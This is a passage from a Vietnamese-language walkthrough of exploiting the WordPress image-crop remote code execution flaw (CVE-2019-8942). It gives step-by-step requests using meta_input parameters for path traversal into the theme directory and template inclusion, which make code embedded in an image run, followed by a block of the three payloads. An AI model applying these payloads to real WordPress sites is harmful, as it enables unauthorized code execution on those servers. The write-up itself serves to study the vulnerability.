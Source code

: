 ![](https://i.imgur.com/I3QbAHP.png)

Step 7: Sử dụng request ở `Step 5`, thêm parameter `&meta_input[_wp_attached_file]=YYYY/MM/file.jpg#/file` vào request, Request này sẽ chuẩn bị tiến hành tạo folder `file.jpg#` và cop ảnh `file` vào thư mục này.

Step 8: Gửi request ở `Step 6` để lưu ảnh. Thấy thư mục `file.jpg#` đã được tạo và ảnh được lưu vào thư mục `YYYY/MM/file.jpg#`.

Step 9: Tương tự bước 7, sử dụng request ở `Step 5`, thêm parameter `&meta_input[_wp_attached_file]=YYYY/MM/file.jpg#/../../../../themes/twentyseventeen/file` vào request. Do biết được cấu trúc thư mục của Wordpress và tên theme, ta có thể tạo ra được payload như trên.
![](https://i.imgur.com/uEXa5Vz.png)

Step 10: Gửi request ở `Step 6` để lưu ảnh. Thấy được ảnh được lưu theo đường dẫn mới.
![](https://i.imgur.com/DB9S7Mo.png)

Step 11: Tới chức năng Posts -> Add new. Click `Publish`. Intercept request và Send to repeater.
![](https://i.imgur.com/2kpEOkE.png)

Step 12: Sử dụng request ở `Step 11`, thêm parameter `&meta_input[_wp_page_template]=cropped image` trong đó `cropped image` là tên file ảnh ở `Step 10`.
![](https://i.imgur.com/vsloIQ8.png)

Step 13: Truy cập vào post trên và thấy mã độc trong ảnh được thực thi.
![](https://i.imgur.com/oyK4nZR.png)

**Payload với 3 requests được sử dụng:**
```
&meta_input[_wp_attached_file]=year/month/file#/file
&meta_input[_wp_attached_file]=year/month/file#/../../../../themes/twentyseventeen/file
&meta_input[_wp_page_template]=<cropped image>
```

## Tham khảo
- [https://github.com/brianwrf/WordPress_4.9.8_RCE_POC](https://github.com/brianwrf/WordPress_4.9.8_RCE_POC)
- [https://viblo.asia/p/phan-tich-cve-2019-8942-cua-wordpress-bWrZnVrYZxw](https://viblo.asia/p/phan-tich-cve-2019-8942-cua-wordpress-bWrZnVrYZxw)
- [https://blog.sonarsource.com/wordpress-image-remote-code-execution?redirect=rips](https://blog.sonarsource.com/wordpress-image-remote-code-execution?redirect=rips)
- [https://pentest-tools.com/blog/wordpress-remote-code-execution-exploit-cve-2019-8942](https://pentest-tools.com/blog/wordpress-remote-code-execution-exploit-cve-2019-8942)